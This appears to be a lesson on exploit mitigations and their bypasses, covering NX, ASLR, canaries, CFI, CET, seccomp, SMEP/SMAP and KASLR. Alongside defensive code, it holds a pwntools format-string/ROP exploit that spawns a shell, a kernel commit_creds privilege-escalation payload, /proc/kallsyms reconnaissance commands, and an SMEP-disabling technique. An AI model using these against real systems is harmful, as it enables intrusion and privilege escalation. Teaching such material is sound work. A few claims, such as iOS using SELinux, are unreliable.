

# Lesson 4: Mitigation Mechanisms, Bypass Strategies, and Hardening Tradeoffs

## 1. First-Principles Intuition & Invariants

Every security mitigation in modern systems descends from a single architectural failure: the CPU cannot distinguish between data and instructions at the semantic level. The von Neumann architecture that underpins nearly every general-purpose processor places code and data in the same address space, leaving software—not silicon—to enforce the boundary. When that boundary fails, an attacker gains the ability to redirect control flow, corrupt state, and escalate privilege. The mitigation landscape exists entirely in response to this fundamental ambiguity, and understanding why each defense was invented requires holding its historical context alongside its mechanical implementation.

The story begins in earnest with Morris Worm in 1988, which demonstrated that a stack overflow could overwrite a return address and redirect execution to attacker-supplied shellcode. The underlying mechanics were trivially simple: `gets()` wrote past the end of a stack buffer, the saved instruction pointer was clobbered, and the CPU obediently fetched the next instruction from wherever the attacker pointed it. For nearly a decade, the industry's response was dominated by guidelines rather than enforcement—auditing code for unsafe functions, training developers, writing standards. None of it worked at scale. The attack surface was too large and the cognitive load on developers too high.

The first generation of hardware-enforced mitigations arrived in the early 2000s with the NX (No-Execute) bit on AMD processors and the XD (Execute Disable) bit on Intel, both exposing a capability that the page-table architecture had always permitted in principle: marking memory pages as non-executable. The CPU consults the NX bit in a page-table entry before fetching an instruction; if the bit is set for the page containing the target address, the processor raises a fault rather than executing the bytes there. This terminated the classic inject-and-execute shellcode paradigm overnight—or would have, had it been universally deployed and complemented with equally rigorous protections. Linux kernel support arrived via the `CONFIG_X86_PAE` and later `CONFIG_X86_64` paths, exposing `PROT_EXEC` control through `mmap(2)` and `mprotect(2)`. Windows introduced Data Execution Prevention (DEP) in XP SP2, initially as an opt-in and later as a system-wide policy enforced both in software and hardware.

The adversarial response to NX/DEP was return-oriented programming (ROP), which is not a clever hack so much as a logical inevitability. If the CPU will not execute attacker-injected bytes, the attacker need not inject any—every process already contains a large corpus of executable code in its own text segment and in every loaded shared library. By chaining together short sequences of existing instructions that end in a `RET` opcode (called gadgets), an attacker can build a Turing-complete computation out of fragments the program already owns. The stack becomes a data structure encoding the attacker's program: each entry is the address of the next gadget to execute, and the CPU's own return mechanism becomes the dispatch engine. The elegance is brutal. NX/DEP, the most expensive hardware feature the industry had deployed for decades, was rendered substantially ineffective without a single bit of new hardware.

This forced the second generation of mitigations to address not just what executes but where things are located. Address Space Layout Randomization (ASLR) randomizes the base addresses of the stack, heap, and shared libraries at process load time, ensuring that an attacker who cannot read memory cannot reliably construct a ROP chain because they do not know the runtime addresses of the gadgets they want to chain. ASLR was implemented in Linux 2.6.12, in Windows Vista, and in macOS 10.5. The key invariant is entropy: the security of ASLR is precisely the number of bits randomized, and that number varies dramatically by platform, architecture, and configuration. On 64-bit Linux, the VDSO and mmap regions receive up to 28 bits of randomness; the stack receives up to 20 bits. On 32-bit platforms, the total virtual address space is so small that exhaustive brute-force is feasible in seconds for local attacks.

Stack canaries address a different invariant: even if an attacker knows addresses, they must overwrite a contiguous region of stack memory to reach a saved return pointer, and anything they overwrite between the buffer and the saved RIP is observable before the function returns. The canary is a secret value placed between the local variable region and the saved frame pointer at function entry, then verified before the function executes its `RET`. GCC's Stack Smashing Protector (SSP, enabled with `-fstack-protector-strong`) implements this by inserting a load from the thread-local `__stack_chk_guard` variable at function entry and a comparison at function exit, terminating the process via `__stack_chk_fail()` if the values diverge. The canary value itself is ideally cryptographically random, but it carries a structural weakness: it only protects the return address path through linear overflow. Any vulnerability that permits a non-contiguous or arbitrary write can bypass the canary entirely by writing directly to the saved RIP without touching the canary slot.

Control Flow Integrity (CFI) is conceptually the most ambitious of the mainstream mitigations because it attempts to enforce semantic invariants about control flow rather than merely randomizing or protecting specific metadata. The core idea, formalized by Abadi et al. in 2005, is that every indirect branch—every `call` or `jmp` through a register or memory location, every `RET` instruction—should only be permitted to target addresses that are valid according to the program's control-flow graph (CFG), computed statically at compile time. At forward edges (indirect calls), the compiler inserts a check verifying that the target belongs to the set of functions that the call site could legitimately invoke. At backward edges (returns), a shadow stack records the legitimate return address at call time and verifies it at return time. LLVM's CFI implementation (`-fsanitize=cfi`) and Microsoft's Control Flow Guard (CFG) are the two dominant production implementations, each with different granularity tradeoffs.

The architectural tension that runs through all of these mechanisms is a single tradeoff: specificity versus performance. A mitigation that is maximally precise—one that checks every memory access, validates every pointer, verifies every control-flow edge—is also maximally expensive. A mitigation that is cheap enough to deploy universally is also broad enough to bypass. This tradeoff is not an engineering failure; it is a physical invariant. Every check the CPU performs on behalf of a mitigation is a cycle not spent on application work, a cache line evicted, a branch predictor entry consumed. The practical hardening landscape is therefore not a question of which mitigations to apply but which combination of mitigations produces an acceptable security posture for a given performance budget.

Sandboxing represents the logical extension of this reasoning to the process and system level. Rather than attempting to prevent exploitation of a single vulnerability in a single function, a sandbox attempts to ensure that successful exploitation of any vulnerability in a process cannot compromise the broader system. The seccomp-BPF mechanism in Linux allows a process to install a filter program that the kernel evaluates for every system call, allowing only a precisely enumerated whitelist and causing all others to terminate the process or return an error. Chrome's renderer processes have operated under a seccomp-BPF sandbox since 2012. iOS and Android enforce mandatory access control through SELinux and TrustZone respectively, ensuring that code executing in a sandboxed context cannot access kernel data structures or other processes' memory regardless of what bug is exploited.

---

## 2. Core Architecture & Mechanics

### NX/DEP: Page Table Enforcement

The NX bit occupies bit 63 of a 64-bit page-table entry in x86-64's four-level paging hierarchy. When the CPU's instruction fetch unit resolves a virtual address to a physical frame, it traverses the PML4 → PDPT → PD → PT chain, ORing together the NX bits of all intermediate entries. If the resulting NX bit for the final page-table entry is set, the hardware raises a `#PF` (page fault) with the `I/D` bit set in the error code, distinguishing an instruction-fetch fault from a data-access fault. The operating system's page-fault handler receives this fault and delivers `SIGSEGV` on Linux or terminates the process under DEP on Windows.



The relationship between POSIX memory protection flags and the NX bit is mediated entirely by the kernel's `vm_area_struct` (VMA) layer. When a process calls `mmap(addr, len, PROT_READ|PROT_WRITE, ...)`, the kernel creates a VMA with `VM_READ | VM_WRITE` but not `VM_EXEC`, and the page-fault handler that installs physical pages for this region sets the NX bit in the resulting page-table entries. Adding `PROT_EXEC` via `mprotect(2)` clears the NX bit. This is precisely why JIT compilers require a two-stage allocation: they write bytecode into a `PROT_READ|PROT_WRITE` region, then promote it to `PROT_READ|PROT_EXEC` before executing—a pattern that W^X (Write XOR Execute) policies attempt to prevent by prohibiting any single page from ever holding both permissions simultaneously, enforced by OpenBSD's pledge mechanism and by PaX's MPROTECT restrictions.

### ASLR: Entropy Distribution and Process Memory Layout

Linux ASLR is implemented in `arch/x86/mm/mmap.c` and `fs/binfmt_elf.c`. At `execve(2)` time, the kernel generates random offsets for the stack base, the mmap region base, and optionally the VDSO. The PIE (Position Independent Executable) compilation flag (`-fPIE -pie`) causes the linker to emit a position-independent binary whose `.text` section is loaded at an ASLR-randomized base rather than a fixed address. Without PIE, the main executable's text and data are always loaded at their linked addresses, providing attackers with a reliable gadget source even when all libraries are randomized.

```
Process Address Space (64-bit Linux, ASLR enabled)

0xFFFFFFFFFFFFFFFF ┌──────────────────────────────┐
                   │   Kernel Space (not mapped)   │
0xFFFF800000000000 ├──────────────────────────────┤
                   │                               │
0x7FFF_XXXX_XXXX   ├──────────────────────────────┤  ← Stack base (random, ~20 bits)
                   │  Stack (grows down)           │
                   │  [argv, envp, stack frames]   │
                   ├──────────────────────────────┤
                   │  (gap)                        │
0x7F_XXXX_XXXX     ├──────────────────────────────┤  ← mmap base (random, ~28 bits)
                   │  Shared Libraries (libc, etc) │
                   │  [.text, .rodata, .data, .bss]│
                   ├──────────────────────────────┤
                   │  (gap)                        │
                   ├──────────────────────────────┤  ← Heap base (random, ~13 bits)
                   │  Heap (grows up)              │
                   ├──────────────────────────────┤
                   │  BSS / Data / Text            │  ← Fixed (non-PIE) or random (PIE)
0x0000000000400000 └──────────────────────────────┘
```

The entropy values above are not uniform across configurations. Checking the actual entropy on a running system requires reading `/proc/sys/kernel/randomize_va_space` (values 0–2) and examining `/proc/self/maps` before and after fork. A common measurement technique used in vulnerability research is running a target binary under a loop and recording the base address of a known library across iterations to measure the actual random bits in play.

```bash
# Measure effective ASLR entropy for libc on a target system
for i in $(seq 1 1000); do
    cat /proc/$(pidof target_binary)/maps 2>/dev/null \
        | grep 'libc' | head -1 | awk '{print $1}' | cut -d'-' -f1
done | sort -u | wc -l
```

This measurement directly informs the feasibility of a brute-force information leak attack. On a 32-bit system returning 256 unique addresses across 1000 samples, the entropy is approximately 8 bits—exhaustively brute-forceable in under a minute with fork-based respawning.

### Stack Canary: SSP Mechanics and GCC Instrumentation

GCC's `-fstack-protector-strong` policy instruments any function that takes the address of a local variable, declares a local array of any type, or calls `alloca`. The compiler-generated prologue and epilogue follow a precise pattern:

```c
// Source function
void vulnerable(char *input) {
    char buf[64];
    strcpy(buf, input);
}

// Compiler-generated assembly (x86-64, conceptual)
vulnerable:
    push   rbp
    mov    rbp, rsp
    sub    rsp, 0x50          ; allocate locals + canary slot
    mov    rax, QWORD PTR fs:0x28  ; load __stack_chk_guard from TLS
    mov    QWORD PTR [rbp-0x8], rax ; store canary below saved RBP
    xor    eax, eax

    ; ... function body (strcpy call) ...

    mov    rdx, QWORD PTR [rbp-0x8] ; reload canary from stack
    xor    rdx, QWORD PTR fs:0x28   ; compare with TLS master copy
    jne    .canary_fail             ; divergence → abort
    leave
    ret

.canary_fail:
    call   __stack_chk_fail
```

The TLS (Thread Local Storage) slot `fs:0x28` on x86-64 holds the master canary value, initialized by the C runtime from `/dev/urandom` at startup and copied per-thread. The canary placed on the stack is a copy; the master persists in TLS. This architecture means that a vulnerability giving read access to the TLS block at a known offset directly leaks the canary, enabling a smash-and-bypass.

### CFI: Forward and Backward Edge Enforcement

LLVM's CFI operates on the Itanium C++ ABI type hierarchy. For every indirect call site, the compiler inserts a type check verifying that the target function's type signature matches the declared type of the function pointer at the call site. The implementation uses a jump table approach: all functions that share a compatible type signature are grouped into a contiguous, aligned region, and the check reduces to a range check on the target address followed by an alignment check.

```
CFI Forward-Edge Check (conceptual IR → asm):

; Before: call rax  (indirect call through function pointer)
; After:
    lea    rcx, [__cfi_check_function_type_group]  ; base of valid target set
    sub    rax, rcx                                ; offset from base
    cmp    rax, [group_size]                       ; range check
    ja     .cfi_fail                               ; out of range → abort
    test   rax, [alignment_mask]                   ; alignment check
    jnz    .cfi_fail                               ; misaligned → abort
    call   rax                                     ; permitted, proceed
```

The critical limitation is granularity. Without further refinement, two functions with identical signatures—say, `int (*)(char *)` for both a benign callback and a sensitive system-dispatch function—belong to the same equivalence class and are mutually interchangeable from CFI's perspective. An attacker who can overwrite a function pointer can redirect it to any function in the same type class. For programs with large inheritance hierarchies or many functions sharing common signatures, this equivalence class can be large enough to contain useful exploitation targets.

Microsoft's Control Flow Guard takes a coarser approach: it validates indirect call targets against a bitmap of all function entry points in the loaded image, without type-based refinement. CFG's bitmap check is cheaper than LLVM CFI's type-based check but provides weaker guarantees because the valid target set is all functions in the binary rather than a type-compatible subset.

Shadow stacks address backward edges (returns) independently of forward-edge CFI. Intel CET (Control-flow Enforcement Technology), available in Tiger Lake and later processors, implements a hardware shadow stack: a second stack pointer (`SSP`) maintained by the CPU in a supervisor-only memory region, updated automatically by `CALL` and `RET` instructions. On `CALL`, the return address is pushed to both the regular stack and the shadow stack. On `RET`, the CPU compares the return address popped from the regular stack against the top of the shadow stack; a mismatch raises a `#CP` (Control Protection) exception. Because the shadow stack lives in a CPU-maintained region inaccessible to normal stores, an attacker who overwrites the regular stack cannot forge a matching shadow stack entry—they would need a separate write primitive targeting the shadow stack region specifically, which requires a kernel-level vulnerability.

```
CET Shadow Stack Operation:

CALL instruction:
    RSP  -= 8; [RSP]  = RIP + len(CALL)   ; regular stack push
    SSP  -= 8; [SSP]  = RIP + len(CALL)   ; shadow stack push (CPU-managed)

RET instruction:
    ret_addr = [RSP]; RSP += 8             ; pop regular stack
    shadow   = [SSP]; SSP += 8            ; pop shadow stack
    if ret_addr != shadow → #CP exception  ; mismatch → abort
    JMP ret_addr
```

### Sandbox Architecture: seccomp-BPF System Call Filtering

A seccomp-BPF filter is a classic BPF program evaluated by the kernel for every system call before the call enters the kernel proper. The program receives a `struct seccomp_data` structure containing the system call number, architecture identifier, and the first six arguments. The filter returns an action code from a fixed vocabulary: `SECCOMP_RET_ALLOW`, `SECCOMP_RET_ERRNO`, `SECCOMP_RET_KILL_PROCESS`, `SECCOMP_RET_TRAP`, or `SECCOMP_RET_TRACE`.

The following filter demonstrates a minimal allowlist permitting only `read`, `write`, `exit`, and `exit_group` on a 64-bit Linux system:

```c
#include <linux/seccomp.h>
#include <linux/filter.h>
#include <linux/audit.h>
#include <sys/prctl.h>
#include <sys/syscall.h>
#include <stddef.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>

static int install_seccomp_filter(void) {
    struct sock_filter filter[] = {
        /* Validate architecture: kill if not x86-64 */
        BPF_STMT(BPF_LD | BPF_W | BPF_ABS,
                 offsetof(struct seccomp_data, arch)),
        BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K,
                 AUDIT_ARCH_X86_64, 1, 0),
        BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_KILL_PROCESS),

        /* Load syscall number */
        BPF_STMT(BPF_LD | BPF_W | BPF_ABS,
                 offsetof(struct seccomp_data, nr)),

        /* Allowlist: read(0), write(1), exit(60), exit_group(231) */
        BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, SYS_read,       3, 0),
        BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, SYS_write,      2, 0),
        BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, SYS_exit,       1, 0),
        BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, SYS_exit_group, 0, 1),

        BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW),
        BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_KILL_PROCESS),
    };

    struct sock_fprog prog = {
        .len    = (unsigned short)(sizeof(filter) / sizeof(filter[0])),
        .filter = filter,
    };

    if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) == -1) {
        perror("prctl(PR_SET_NO_NEW_PRIVS)");
        return -1;
    }

    if (prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog) == -1) {
        perror("prctl(PR_SET_SECCOMP)");
        return -1;
    }

    return 0;
}

int main(void) {
    if (install_seccomp_filter() != 0)
        return EXIT_FAILURE;

    /* From this point, any syscall outside the allowlist kills the process */
    write(STDOUT_FILENO, "sandbox active\n", 15);
    return EXIT_SUCCESS;
}
```

The architecture validation step at the head of the filter is not optional. Without it, an attacker on a 64-bit system can invoke 32-bit syscalls via `int 0x80`, which share the same numerical namespace but map to entirely different kernel functions—a class of filter bypass that has been exploited in real CTF challenges and production sandbox escapes alike.

---

## 3. High-Performance Optimization & Failure Modes

### Information Leak Exploitation: Defeating ASLR Without Brute Force

The practical offensive workflow against ASLR is never brute force on a 64-bit target; it is information disclosure. Every modern exploit chain targeting a 64-bit system that deploys ASLR requires a separate vulnerability or program feature that leaks a runtime address before the control-flow hijack occurs. This two-stage structure is now the norm rather than the exception, and understanding how to find and exploit information leaks is at least as important as understanding the control-flow hijack itself.

The most common leak classes in native code are uninitialized stack or heap data exposed through reads, format string vulnerabilities, partial overwrites that expose pointer residue, and controlled out-of-bounds reads. The diagnostic workflow for finding exploitable leaks begins with understanding which memory regions contain addresses at the moment the vulnerability can be triggered. Heap allocations in glibc's ptmalloc contain free-list pointers in unallocated chunks; a heap read vulnerability that leaks freed chunk metadata leaks libc addresses because the unsorted-bin's forward and backward pointers point into libc's main arena. The following GDB session illustrates the anatomy of a heap leak recovery:

```bash
# Attach to a running process or run under GDB
gdb -q ./target_binary

(gdb) break *0x401234      # breakpoint at the read-what-where primitive
(gdb) run

# After hitting the breakpoint, examine heap metadata around the target chunk
(gdb) x/8gx 0x603000       # examine 8 quadwords from heap base
# Output example:
# 0x603000: 0x0000000000000000  0x0000000000000091   ← chunk header (size=0x90)
# 0x603010: 0x00007ffff7dd1b78  0x00007ffff7dd1b78   ← fd/bk (unsorted bin ptrs → libc)
# 0x603020: 0x0000000000000000  0x0000000000000000

# Compute libc base from leaked unsorted bin pointer
(gdb) p/x 0x00007ffff7dd1b78 - 0x3c4b78  # offset determined from libc symbols
# $1 = 0x7ffff7a0d000  ← libc base address
```

With a libc base address in hand, the attacker computes the runtime addresses of `system`, `/bin/sh`, and any desired gadgets by adding their static offsets (from `readelf -s /lib/x86_64-linux-gnu/libc.so.6` or `nm -D`) to the base. This is the standard ret2libc technique's operational form in the ASLR era, and it requires precisely one reliable leak of any pointer that belongs to the libc mapping.

Format string vulnerabilities deserve special treatment because they provide both a read primitive and a write primitive within the same vulnerability class, frequently without requiring a separate bug. A format string passed directly to `printf` or `vprintf` allows an attacker to read stack values via `%p` or `%x` and to write to arbitrary memory via `%n`, which writes the count of characters printed so far to the address pointed to by the corresponding argument slot. The practical workflow for exploiting a format string on a stack-compiled binary follows a systematic three-phase process.

The first phase determines the offset from the format string buffer to the saved return address on the stack, combined with the index into the format string's positional argument list that accesses arbitrary stack slots. The second phase constructs a payload that places the target address (saved RIP) on the stack and reads the canary and any residual pointers needed to defeat ASLR. The third phase constructs the write payload using `%hhn` (write one byte), `%hn` (write two bytes), or the full `%n` (write four bytes) to overwrite the saved return address byte by byte, targeting a known gadget address computed from the leaks obtained in phase two.

```python
#!/usr/bin/env python3
# Format string exploitation scaffold (pwntools)
# Target: 64-bit ELF with partial RELRO, stack canary, NX, ASLR

from pwn import *

elf  = ELF('./target')
libc = ELF('./libc.so.6')

context.binary = elf
context.arch   = 'amd64'

io = process('./target')

# Phase 1: Leak stack canary and libc pointer via positional format args
# Determine offset empirically: send "AAAA.%p.%p..." and observe output
CANARY_OFFSET = 17   # positional index of canary on stack (empirically determined)
LIBC_OFFSET   = 21   # positional index of a libc return address residue

leak_payload = f'%{CANARY_OFFSET}$p.%{LIBC_OFFSET}$p\n'.encode()
io.sendlineafter(b'Input: ', leak_payload)

response = io.recvline().decode().strip().split('.')
canary    = int(response[0], 16)
libc_leak = int(response[1], 16)

libc.address  = libc_leak - libc.symbols['__libc_start_main'] - 231
system_addr   = libc.symbols['system']
bin_sh_addr   = next(libc.search(b'/bin/sh\x00'))

log.info(f'Canary:       {hex(canary)}')
log.info(f'libc base:    {hex(libc.address)}')
log.info(f'system():     {hex(system_addr)}')

# Phase 2: ROP chain (ret gadget for alignment + pop rdi + system + /bin/sh)
ret_gadget    = libc.address + 0x000000000002d7dd  # ret; from ROPgadget output
pop_rdi       = libc.address + 0x0000000000026b72  # pop rdi; ret;

rop_chain = flat(
    b'A' * 72,          # fill buffer to saved RBP
    p64(canary),        # restore exact canary value
    p64(0),             # saved RBP (irrelevant)
    p64(ret_gadget),    # stack alignment for SSE (movaps requirement)
    p64(pop_rdi),       # gadget: pop rdi; ret
    p64(bin_sh_addr),   # rdi = pointer to "/bin/sh"
    p64(system_addr),   # call system("/bin/sh")
)

io.sendlineafter(b'Input: ', rop_chain)
io.interactive()
```

This exploit chain illustrates the layered defeat of four simultaneous mitigations—NX (bypassed by ROP), ASLR (bypassed by format string leak), stack canary (bypassed by reading and restoring the exact value), and SSE alignment requirements (addressed by inserting a `ret` gadget for 16-byte stack alignment before `system`)—and it reflects the standard toolchain and reasoning pattern that every offensive practitioner must internalize.

### CFI Bypass: Type Confusion and Equivalence Class Exploitation

Defeating LLVM CFI at the forward edge requires either a type confusion vulnerability that allows an attacker to substitute a function pointer of one type for another within the same equivalence class, or a vulnerability that allows writing to a region outside the CFI-protected range. The practical research methodology for identifying CFI bypass opportunities proceeds through static analysis of the binary's CFI jump tables, which are emitted in the `.rodata` section with predictable structure.

```bash
# Identify CFI jump table regions using radare2
r2 -q -e bin.cache=true ./cfi_target

[0x00400000]> aa       # analyze all
[0x00400000]> /x 0F0B  # search for ud2 (CFI failure instruction sequence)
# Output: Hit 0x401a3c hit at 0x401a3c

# List all indirect call sites instrumented by CFI
[0x00400000]> pdf @ 0x401a3c~call

# Cross-reference to understand which type equivalence class this call site belongs to
# Then enumerate all functions in the same class (same type signature hash)
[0x00400000]> axt @ 0x401a3c
```

The research insight that makes CFI bypass tractable in practice is that many realistic C++ programs have virtual dispatch through vtables where many classes share the base class's virtual function signatures. If `Dangerous::execute(char *)` and `Benign::execute(char *)` both override a pure virtual `Base::execute(char *)`, they belong to the same CFI equivalence class. An attacker who can write to a vtable pointer can redirect any object's virtual dispatch to any other class's implementation, as long as both override the same virtual function.

### Kernel Attack Surface: SMAP, SMEP, and KASLR

The kernel attack surface differs from userspace exploitation in one critical dimension: the value of success. A single kernel vulnerability that permits arbitrary read/write access to kernel memory can overwrite `cred` structures, disable LSM hooks, install kernel modules, or escape any container boundary. This outsized impact is why kernel mitigations receive separate treatment.

SMEP (Supervisor Mode Execution Prevention) prevents the CPU from executing userspace pages while in ring 0, mirroring NX's role at the user/kernel boundary. SMAP (Supervisor Mode Access Prevention) is the complementary mechanism: it raises a fault when kernel-mode code accesses a userspace virtual address without first setting the `AC` (Access Check) flag in `EFLAGS` via `STAC`/`CLAC` instructions. Together, SMEP and SMAP prevent two classic kernel exploitation primitives: ret2usr (which redirects kernel control flow to a shellcode function in userspace) and userspace data dereferencing (which allowed kernel code to operate on attacker-controlled pointers into userspace mappings).

KASLR randomizes the kernel text base at boot time, with entropy drawn from the boot loader's measurement of hardware timing jitter. On a 64-bit system with KASLR, the kernel is loaded at a randomly chosen offset within a 1 GB window. The effective entropy is roughly 9 bits in practice (512 possible locations aligned to 2 MB page boundaries), which is weak by comparison to userspace ASLR. Practical KASLR bypasses fall into three categories: side-channel timing attacks that infer the kernel base from cache-timing behavior of kernel functions, information leaks through `/proc/kallsyms` (which requires `kptr_restrict=2` to be useful, and defaults to world-readable addresses on many distributions), and exploiting the `/proc/kcore` interface which maps kernel virtual memory and is readable by root—a meaningful constraint only when the attacker has not yet obtained root.

```bash
# Check KASLR and kernel pointer restriction status on a target system
cat /proc/sys/kernel/kptr_restrict     # 0 = exposed, 1 = hashed, 2 = zero
cat /proc/sys/kernel/perf_event_paranoid  # controls timing side-channel access
dmesg | grep -i 'kaslr'               # boot log may show randomization status

# If kptr_restrict is 0, kernel symbols are directly readable:
grep 'T commit_creds' /proc/kallsyms  # reveals commit_creds() address directly
grep 'T prepare_kernel_cred' /proc/kallsyms
```

The standard kernel privilege escalation pattern—once a read/write primitive exists and KASLR has been defeated by a leak—is to overwrite the `uid`/`gid` fields of the calling process's `cred` structure. The `cred` structure is reachable by traversing the `task_struct` chain, itself located through `current` (a per-CPU pointer whose offset from the kernel base is deterministic once KASLR is bypassed). The following C fragment illustrates the shellcode logic, executed from a kernel ROP chain or a kernel arbitrary-call primitive:

```c
#include <linux/cred.h>
#include <linux/sched.h>

/*
 * Kernel-mode privilege escalation payload.
 * Called from an exploited kernel context (ring 0).
 * prepare_kernel_cred(NULL) allocates a fresh init-level credential.
 * commit_creds() installs it on the current task.
 *
 * Function pointers resolved from leaked /proc/kallsyms or KASLR bypass.
 */
typedef struct cred *(*prepare_kernel_cred_t)(struct task_struct *);
typedef int          (*commit_creds_t)(struct cred *);

void escalate_privileges(unsigned long pkc_addr, unsigned long cc_addr) {
    prepare_kernel_cred_t prepare_kernel_cred =
        (prepare_kernel_cred_t)(uintptr_t)pkc_addr;
    commit_creds_t commit_creds =
        (commit_creds_t)(uintptr_t)cc_addr;

    commit_creds(prepare_kernel_cred(NULL));
}
```

SMEP/SMAP defeat this payload if executed from userspace; the payload must therefore execute in ring 0, either through a kernel ROP chain or a shellcode region allocated in a kernel-accessible mapping. The practical bypass for SMEP in the kernel ROP context is straightforward: gadgets that clear the CR4.SMEP bit (bit 20) exist in the kernel's own text segment and can be chained to disable SMEP before returning to userspace execution. CR4 write gadgets are present in virtually every x86-64 kernel binary, making SMEP's bypass a matter of finding the appropriate gadget sequence rather than a fundamental obstacle.

### Performance Tradeoffs: Measuring Mitigation Overhead

No hardening decision should be made without empirical measurement of its cost. The following benchmark harness measures the overhead of several mitigation layers in isolation, using `clock_gettime(CLOCK_MONOTONIC)` with nanosecond resolution to capture per-operation cost rather than wall-clock throughput:

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>

#define ITERATIONS  10000000UL
#define NS_PER_SEC  1000000000UL

static inline long long timespec_diff_ns(struct timespec *a, struct timespec *b) {
    return ((long long)(b->tv_sec  - a->tv_sec)  * NS_PER_SEC)
         + ((long long)(b->tv_nsec - a->tv_nsec));
}

/*
 * Synthetic workload: function call through pointer (CFI overhead target)
 * Compile variants:
 *   Baseline:  gcc -O2 -o bench_base bench.c
 *   SSP:       gcc -O2 -fstack-protector-all -o bench_ssp bench.c
 *   CFI:       clang -O2 -fsanitize=cfi -flto -fvisibility=hidden -o bench_cfi bench.c
 */

typedef int (*op_fn)(int, int);

__attribute__((noinline)) int add_op(int a, int b) { return a + b; }
__attribute__((noinline)) int mul_op(int a, int b) { return a * b; }

int main(void) {
    struct timespec t0, t1;
    volatile int acc = 0;
    op_fn ops[2] = { add_op, mul_op };

    clock_gettime(CLOCK_MONOTONIC, &t0);
    for (unsigned long i = 0; i < ITERATIONS; i++) {
        acc += ops[i & 1](i, i + 1);
    }
    clock_gettime(CLOCK_MONOTONIC, &t1);

    long long elapsed_ns = timespec_diff_ns(&t0, &t1);
    printf("Iterations:     %lu\n", ITERATIONS);
    printf("Total time:     %lld ns\n", elapsed_ns);
    printf("Per-op latency: %.2f ns\n", (double)elapsed_ns / ITERATIONS);
    printf("Accumulator:    %d\n", (int)acc);  /* prevent dead-code elimination */

    return 0;
}
```

Compile and run three variants—baseline, SSP-only, and CFI—on the target hardware and record the per-op latency delta. In practice, SSP overhead on modern CPUs with TLS support is below 1 ns per protected function call, because the canary load and compare can be scheduled speculatively and the branch predictor learns the non-failure path immediately. LLVM CFI's forward-edge check typically adds 2–5 ns per indirect call in microbenchmark conditions, but the impact in real applications is dominated by whether the check sites fall on hot paths and whether the range check displaces a cache line. CET shadow stack overhead, measured on Tiger Lake hardware with Linux 5.18 and later, is reported by Intel at under 1% for typical web server workloads because the shadow stack push and pop are pipelined into the existing `CALL`/`RET` execution units.

The seccomp-BPF overhead deserves particular attention for high-frequency system call paths. Each system call filtered by a seccomp program runs the BPF interpreter before entering the kernel proper, adding approximately 100–300 ns per call depending on filter complexity and cache state. For applications making hundreds of thousands of system calls per second (network servers, database engines), this overhead is non-negligible. The practical mitigation is to minimize the filter's size, place the most frequently called syscalls at the head of the filter program (the BPF interpreter evaluates sequentially), and audit whether certain system calls can be batched or replaced with userspace implementations (e.g., replacing `gettimeofday` calls with the VDSO, which does not invoke the seccomp filter at all because it executes entirely in userspace).

### Hardening Tradeoffs: Building a Practical Defense-in-Depth Stack

The intellectually honest position on mitigation stacking is that no individual mitigation is sufficient and no combination is impenetrable, but that increasing the number and diversity of independent mitigations increases the number of independent vulnerabilities an attacker must chain together to achieve a goal. The operative metric is not "does this mitigation prevent exploitation" but "does this mitigation require an additional bug class that the attacker must find and exploit."

A production hardened binary for a network-facing service represents the following policy hierarchy from most to least critical. The process should be compiled as PIE (`-fPIE -pie`), with full RELRO (`-Wl,-z,relro,-z,now`), stack canaries (`-fstack-protector-strong`), and either LLVM CFI or at minimum CFG on Windows. The process should be launched with a seccomp-BPF filter permitting the minimum viable syscall set for its function. The runtime environment should enforce W^X either through kernel policy or through per-VMA tracking. The service should run as an unprivileged user with no ambient capabilities and no setuid bits. And the deployment environment should maintain a capability to deliver patches within hours of a CVE disclosure, because the median time between CVE publication and working exploit availability in public repositories has contracted to below 72 hours for high-profile targets.

The fundamental asymmetry that every defender must internalize is this: the attacker needs to find and chain one path through all mitigations, once. The defender must close every path, across every version, every configuration, and every deployment. Mitigations shift that asymmetry marginally in the defender's favor by multiplying the attacker's required work, but they do not invert it. The correct conclusion is not that mitigations are futile but that they must be deployed alongside detection, response, and isolation—so that when an attacker succeeds at the technical task of bypassing mitigations, they encounter monitoring that surfaces the compromise before they achieve their actual objective.
